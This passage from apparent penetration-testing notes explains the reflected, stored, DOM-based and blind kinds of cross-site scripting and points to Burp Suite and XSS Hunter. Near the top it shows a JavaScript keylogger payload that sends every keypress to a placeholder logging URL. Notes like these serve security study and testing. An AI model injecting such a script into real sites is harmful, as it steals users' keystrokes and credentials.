 ```html
<script>
	document.onkeypress = function(e) {
		fetch(
			'https://example.com/log'
				+ '?keypress='
				+ btoa(e.key)
		);
	}
</script>
```

You can also use XSS to call functions defined on the target website to manipulate user accounts.

## Reflected XSS

This is when user input is echoed back in an unsafe way *without* being stored somewhere. Places vulnerable to reflected XSS:

* GET parameters
* URL paths
* HTTP headers and POST parameters (though these are difficult to exploit in practice)

An attacker requires user cooperation to launch a reflected XSS attack — someone needs to click on a URL, open up a malicious iframe, etc.

## Stored XSS

Relevant JavaScript is stored server-side (for example, in a comment).

Basically, all places that store user information need to be tested for this. Try bypassing client-side checks with Burp Suite, et al.

* [Using Burp Suite](../notes/burp-suite.md)

## DOM-Based XSS

The difference between this and reflected XSS mostly seems to be that in DOM-based attacks we’re taking advantage of JavaScript code that’s already running on the page — basically looking for interaction points that we can control (such as `window.location.*`) that are then passed to unsafe methods (such as `eval()` or `innerHTML`). The idea is to again use a malicious link, but rather than having the code included directly in the page we’re looking to launder it through an existing (legitimate) JavaScript process. 

## Blind XSS

Like stored XSS, but where the code goes someplace you can’t directly/initially observe or interact with (for example, a support portal). Because you can’t directly observe blind XSS inclusion, a callback URL (either one you control or something like XSS Hunter) is required.

* [XSS Hunter](https://xsshunter.com/)

## Perfecting Your Payload
